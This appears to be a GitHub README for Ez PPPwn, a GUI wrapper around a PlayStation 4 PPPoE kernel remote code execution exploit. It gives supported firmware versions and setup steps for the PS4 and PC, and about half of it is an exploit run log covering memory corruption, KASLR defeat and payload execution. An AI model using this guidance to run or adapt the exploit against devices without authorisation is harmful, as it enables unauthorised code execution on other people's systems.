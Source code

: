 # Ez PPPwn PlayStation 4 PPPoE RCE bin loader

![image](https://github.com/DjPopol/Ez-PPPwn/assets/168917709/de9ed0fe-4bf9-4160-ae04-d093540cd141)

![image](https://github.com/DjPopol/Ez-PPPwn/assets/168917709/e3f40ff8-69de-4070-847f-a0d64ab3c44d)

PPPwn is a kernel remote code execution exploit for PlayStation 4 up to FW 11.00. This is a proof-of-concept exploit for CVE-2006-4304 that was reported responsibly to PlayStation.

Supported versions are:

    FW 800/ 8.01 / 8.03
    FW 8.50 / 8.52
    FW 9.00
    FW 9.03 / 9.04
    FW 9.50 / 9.51 / 9.60
    FW 10.00 / 10.01
    FW 10.50 / 10.70 / 10.71
    FW 11.00
    more can be added (PRs are welcome)

The exploit only prints PPPwned on your PS4 as a proof-of-concept. In order to launch Mira or similar homebrew enablers, the stage2.bin payload needs to be adapted.
# Requirements

    - A computer with an Ethernet port  USB adapter also works.
    - Ethernet cable.
    - Python3.

# Usage
    Main :
    [ Script ]
    - button "Browse pppwn"    : Browse pppwn.py
    - button "Browse offsets"  : Browse offsets.py
    - button "Save Pythons"    : Save Python's scripts (pppwn.py, offsets.py) to Directory as
                                 pppwn.py and offsets.py must be on the same directory.

    [ Network PC ]             : Select your NetworkInterface (connected to Playstation 4)
    
    [ Firmware Playstation ]   : Choose Firmware version
    
    [ Stage1 ]
    - button "Browse"          : Browse stage1.bin
    
    [ Stage2 ]
    - button "Browse"          : Browse stage2.bin

    [ Command ]
    - button "Save Batch"      : Save Execute Batch script (.sh) as
    - button "Save All To"     : Save Python's script and stage's to Directory as
    - button "Execute"         : Execute POC in new window "Console"
    - button "Save Config"     : Save Config and it load at start up.
    
    Console :
    - button "Save Log"        : Save log as

On your PS4:

- Go to `Settings` and then `Network`
- Select `Set Up Internet connection` and choose `Use a LAN Cable`
- Choose `Custom` setup and choose `PPPoE` for `IP Address Settings`
- Enter anything for `PPPoE User ID` and `PPPoE Password`
- Choose `Automatic` for `DNS Settings` and `MTU Settings`
- Choose `Do Not Use` for `Proxy Server`
- Click `Test Internet Connection` to communicate with your computer

If the exploit fails or the PS4 crashes, you can skip the internet setup and simply click on `Test Internet Connection`. If the `pppwn.py` script is stuck waiting for a request/response, abort it and run it again on your computer, and then click on `Test Internet Connection` on your PS4.

If the exploit works, you should see an output similar to below, and you should see `Cannot connect to network.` followed by `PPPwned` printed on your PS4.

### Example run

```sh
[+] PPPwn - PlayStation 4 PPPoE RCE by theflow
[+] args: interface=enp0s3 fw=1100 stage1=stage1/stage1.bin stage2=stage2/stage2.bin

[+] STAGE 0: Initialization
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 07:ba:be:34:d6:ab
[+] AC cookie length: 0x4e0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for interface to be ready...
[+] Target IPv6: fe80::2d9:d1ff:febc:83e4
[+] Heap grooming...done

[+] STAGE 1: Memory corruption
[+] Pinning to CPU 0...done
[*] Sending malicious LCP configure request...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[+] Scanning for corrupted object...found fe80::0fdf:4141:4141:4141

[+] STAGE 2: KASLR defeat
[*] Defeating KASLR...
[+] pppoe_softc_list: 0xffffffff884de578
[+] kaslr_offset: 0x3ffc000

[+] STAGE 3: Remote code execution
[*] Sending LCP terminate request...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 97:df:ea:86:ff:ff
[+] AC cookie length: 0x511
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Triggering code execution...
[*] Waiting for stage1 to resume...
[*] Sending PADT...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634be9200
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] AC cookie length: 0x0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...

[+] STAGE 4: Arbitrary payload execution
[*] Sending stage2 payload...
[+] Done!
